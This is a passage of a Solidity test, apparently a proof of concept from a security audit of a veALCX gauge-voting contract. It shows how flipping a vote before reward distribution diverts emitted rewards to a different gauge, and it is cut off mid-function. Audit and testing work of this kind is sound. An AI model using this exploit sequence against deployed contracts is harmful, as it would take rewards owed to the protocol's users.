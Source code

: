 ```solidity
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));

    // Before distribute, flip vote
    pools[0] = balancerPoolAddress;
    hevm.prank(admin);
    voter.vote(tokenId, pools, weights, 0);

    // distribute executed after vote flip
    console.log("\nAfter 2nd vote flip:");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));

    assertTrue(voter.claimable(address(sushiGauge)) > 0);
    assertTrue(voter.claimable(address(balancerGauge)) == 0);
}

function testStealingEmittedRewardsBugVoteBeforeDistribute() public {
    uint256 period = minter.activePeriod();

    // Create a veALCX token and vote to trigger voter rewards
    uint256 tokenId = createVeAlcx(admin, TOKEN_1, MAXTIME, false);
    address sushiBribeAddress = voter.bribes(address(sushiGauge));
    createThirdPartyBribe(sushiBribeAddress, bal, TOKEN_100K);

    address[] memory pools = new address[](1);
    pools[0] = sushiPoolAddress;
    uint256[] memory weights = new uint256[](1);
    weights[0] = 5000;

    address[] memory bribes = new address[](1);
    bribes[0] = address(sushiBribeAddress);
    address[][] memory tokens = new address[][](2);
    tokens[0] = new address[](1);
    tokens[0][0] = bal;

    address[] memory gauges = new address[](2);
    gauges[0] = address(sushiGauge);
    gauges[1] = address(balancerGauge);

    console.log("\nBefore 1st vote:");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));

    // Vote to trigger voter rewards for sushiGauge
    hevm.prank(admin);
    voter.vote(tokenId, pools, weights, 0);

    console.log("\nAfter 1st vote:");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    // Move forward a epoch relative to period to distribute
    hevm.warp(period + nextEpoch);
    voter.distribute();
    voter.updateFor(gauges);

    console.log("\nAfter 1st distribute and updateFor (+EPOCH):");
    console.log("claimable[sushiGauge]:", voter.claimable(address(sushiGauge)));
    console.log("claimable[balancerGauge]:", voter.claimable(address(balancerGauge)));
    
    // skip epoch to initiate attack
    period = minter.activePeriod();
```